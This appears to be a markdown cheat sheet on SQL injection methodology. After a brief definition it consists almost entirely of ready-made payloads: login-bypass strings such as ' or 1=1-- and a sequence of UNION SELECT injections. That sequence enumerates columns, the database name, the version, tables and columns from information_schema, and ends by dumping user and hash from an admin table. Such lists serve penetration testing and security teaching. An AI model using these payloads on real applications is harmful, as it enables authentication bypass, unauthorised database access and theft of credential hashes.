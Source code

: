 #### SQL Injection Methodology
SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

#### Bypassing Login Screens(SMO+)
SQL Injection 101, Login Tricks 
* ```admin' --```
* ```admin' #```
* ```admin'/*```
* ```' or 1=1--```
* ```' or 1=1#```
* ```' or 1=1/*```
* ```') or '1'='1--```
* ```') or ('1'='1--```

----------------------------------------------------------------------------------------------------------------------------------------------------------------


* SELECT DATA  
```SELECT```
* RETRIEVE DATA FROM MULTIPLE TABLES   
```UNION```
* ADD DATA     
```INSERT```

```
1 UNION SELECT 1
```
```
1 UNION SELECT 1,2
```
```
1 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,database()
```
```
' or1=1-- -
```
```
' OR 1=1;--
```
```
' UNION SELECT NULL,NULL,NULL,NULL-- -
```
```
' UNION SELECT 1,2,3,4-- -
```
```
123123' UNION SELECT NULL,NULL,NULL,NULL-- -
```
```
123123' UNION SELECT NULL,database(),NULL,NULL-- -
```
```
123123' UNION SELECT NULL,@@version,NULL,NULL-- -
```
```
123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,table_name,table_schema,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,column_name,table_schema,NULL from information_schema.columns-- -
```
```
123123' UNION SELECT NULL,column_name,table_name,NULL from information_schema.columns-- -
```
```
123123' UNION SELECT NULL,user,hash,NULL from admin-- -
```
